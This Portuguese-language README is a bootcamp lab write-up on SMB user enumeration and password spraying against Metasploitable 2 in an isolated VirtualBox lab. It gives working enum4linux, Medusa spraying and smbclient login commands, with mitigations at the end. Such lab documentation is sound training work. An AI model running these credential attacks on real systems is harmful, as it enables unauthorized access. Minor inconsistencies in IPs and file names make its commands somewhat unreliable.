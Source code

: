# Desafio - Simulação de Password Spraying em SMB - Metasploitable 2  

🟢 **FINALIZADO** - Atividades concluídas e revisadas 

## 📋 Visão Geral do Desafio

Este projeto demonstra técnicas de enumeração de usuários e password spraying no protocolo SMB, utilizando o ambiente controlado do Metasploitable 2. O objetivo é compreender vulnerabilidades comuns em implementações SMB e praticar medidas defensivas.

## 🔍 Conceitos Fundamentais

### Enumeração de Usuários
Técnica que identifica usuários válidos em um sistema através de análise de respostas do servidor. No contexto SMB, servidores mal configurados podem revelar informações sobre contas locais, políticas de senha e grupos de usuários.

### Password Spraying
Estratégia de ataque que testa poucas senhas comuns contra múltiplos usuários, evitando bloqueios por tentativas excessivas. Contrasta com ataques de força bruta tradicional que testam muitas senhas contra poucos usuários.

## Configuração do Ambiente de Testes

### 🔧 Ambiente Isolado e Seguro

Este laboratório foi configurado com **rede Host-Only no VirtualBox** para garantir um ambiente completamente isolado e seguro para os testes. 

### Características da Configuração:
- **🌐 Sem acesso à internet**: As máquinas virtuais não possuem conectividade com redes externas
- **🔒 Rede interna privada**: Comunicação restrita apenas entre o host e as VMs
- **🛡️ Ambiente controlado**: Ideal para testes ofensivos sem riscos de impacto em sistemas reais

### Por que essa configuração?
- Permite focar exclusivamente nas técnicas de segurança
- Elimina preocupações com tráfego indesejado para redes externas
- Cria um sandbox perfeito para aprendizado e experimentação
- Mantém todo o tráfego de rede visível e controlável

### VMs Utilizadas:
- **Kali Linux** - Ferramentas de teste de penetração
- **Metasploitable 2** - Alvo vulnerável deliberadamente

Esta abordagem garante que todos os exercícios permaneçam dentro do ambiente educacional, seguindo as melhores práticas de ethical hacking.

---

## 🛠️ Execução do Teste

### 1. Enumeração com Enum4linux
```bash
enum4linux -a 192.168.56.110 | tee enum4_output.txt
```
- **enum4linux**: Ferramenta de enumeração para protocolos SMB/RPC
- **192.168.56.102**: IP do Metasploitable 2 (no seu lab pode ser diferente)
- **-a**: Ativa todas as técnicas de enumeração disponíveis
- **tee**: Armazena a saída em arquivo enquanto exibe no terminal
- **Propósito**: Coletar informações sobre usuários, shares, grupos e configurações SMB

## Observações Adicionais:

O **enum4linux** é um wrapper que combina várias ferramentas como **smbclient**, **rpcclient**, **nmblookup** e **net** para realizar uma enumeração abrangente de serviços SMB.

A saída do comando pode revelar:
- Usuários locais e de domínio
- Shares de rede disponíveis
- Políticas de senha
- Informações do sistema
- Grupos e permissões

Está muito bom! Só ajustei o IP para manter consistência com a documentação anterior.

### 2. Análise dos Resultados
```bash
less enum4_output.txt
```
Examina o arquivo gerado para identificar usuários válidos e informações do sistema.

### 3. Criação de Wordlist de Usuários
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```
Gera lista contendo nomes de usuários comuns para teste.

### 4. Preparação de Senhas para Spraying
```bash
echo -e "password\n123456\nWelcome1213\nmsfadmin" > senhas_spray.txt
```
Cria lista reduzida de senhas comuns para o ataque de password spraying.

### 5. Ataque com Medusa
```bash
medusa -h 192.168.56.110 -U smb_users.txt -P senhas.txt -M smbnt -t 2 -T 50
```
- **-h**: IP do alvo
- **-U**: Arquivo contendo usuários
- **-P**: Arquivo contendo senhas
- **-M smbnt**: Especifica módulo SMB
- **-t 2**: Threads simultâneas
- **-T 50**: Timeout entre tentativas

### 6. Validação de Acesso
```bash
smbclient -L //192.168.56.110 -U msfadmin
```
Agora é só testar o username e o password encontrado com o comando da Medusa.  
A conexão SMB é bem-sucedida com as credenciais comprometidas (do Metasploitable 2).  

## 🛡️ Medidas de Mitigação

### Contramedidas Recomendadas
- Implementar políticas de bloqueio de conta após tentativas falhas
- Utilizar autenticação multifator
- Configurar logs e monitoramento para detecção de tentativas
- Aplicar senhas complexas e únicas por conta
- Restringir acesso SMB à rede interna quando possível
- Atualizar e corrigir sistemas regularmente

## 💡 Aprendizados Adquiridos

- Compreensão prática de vulnerabilidades em serviços SMB
- Técnicas de enumeração em ambientes Windows/Linux
- Estratégias de password spraying e diferenciação de força bruta
- Configuração e uso de ferramentas de teste de penetração
- Importância de logging e monitoramento contínuo

## ⚠️ Considerações Éticas

Este teste foi realizado em ambiente controlado e isolado, utilizando máquinas virtuais dedicadas para fins educacionais. Todas as técnicas devem ser aplicadas apenas em sistemas onde você possui autorização explícita.

---
**Este projeto foi desenvolvido como parte do Santander Open Academy em parceria com a DIO (Digital Innovation One), representando uma valiosa oportunidade de aprimoramento técnico na área de segurança ofensiva e testes de penetração.**

*[Projeto educacional do desafio do Bootcamp Santander Cibersegurança 2025 em parceria com a DIO](https://web.dio.me/home)*

*Documentação técnica para fins educacionais - Contribuição para comunidade de segurança da informação*
